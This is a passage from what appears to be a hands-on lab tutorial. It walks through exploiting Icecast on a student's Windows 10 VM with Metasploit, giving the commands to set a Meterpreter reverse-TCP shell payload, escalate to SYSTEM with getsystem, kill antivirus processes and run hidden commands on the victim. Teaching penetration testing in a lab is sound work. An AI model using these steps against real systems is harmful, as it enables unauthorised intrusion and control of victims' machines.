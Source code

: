 6. Use the exploit you found:

        use exploit/windows/http/icecast_header
        
    **Note:** you can press the tab key within Metasploit to complete a module or command name you are typing. This makes entering commands in Metasploit faster. If you push the tab key twice it will show you all possible options directory you are in.

6.	Your msfconsole prompt should now look like this:

        msf  exploit(icecast_header) >
        
7.	To get more information about this module, type `info`. This module has been rated “great,” meaning it is very effective and reliable. Besides providing a better description, the `info` command shows the targets that the module is effective against, as well as options to set.

8.	To show available options, type `show options`.

9.	Let’s set the required options. First, we’ll set the remote host: `set rhost [IP address of your Windows 10 VM]`. Type `show options` again to see that the RHOST variable has been set.

10.	Next, let’s look at available payloads for this exploit: `show payloads`

11.	We have a lot of options for this module. We’ll use one of the most popular and reliable payloads. Type:
 
        set payload windows/meterpreter/reverse_tcp

    This payload will open a reverse TCP connection from the exploited Windows 10 VM back to the Kali VM.
    
12.	Type `show options` again to see the options that are required for this payload.

13.	To set the local host variable, type `set lhost [IP address of the Kali machine]`. **Note:** you can easily check your IP in Unix/Linux by typing ifconfig from within Metasploit. Type `show options` to see that the variable has been set.

14.	With all options set, now it’s time to launch the exploit. Type `exploit.`

15.	You should now be presented with the “meterpreter >” prompt. If you see this, then congratulations! You’ve exploited your first remote host. 

16. Laugh maniacally.

    **Question:** How did it feel to laugh maniacally?

16.	Now that we have access, let’s run a few commands to give you an idea of the power of the meterpreter interface. Type `sysinfo` to see information about the compromised system.

17.	Type `getuid` to see the system user you now control.

18.	Escalate your privileges by typing `getsystem`. Type `getuid` again. You should see that you have “NT AUTHORITY\SYSTEM,” which means you administrator privileges. Laugh again.

19.	Type `run killav` to stop anti-virus processes that might limit our attacks on the machine.

20.	You can execute commands on the victims host from within Meterpreter. For example, type:

        execute -f cmd.exe -c 

    This will launch cmd.exe on the victim’s machine. You can hide the command window from being shown on the victim machine by using the `-h` option.
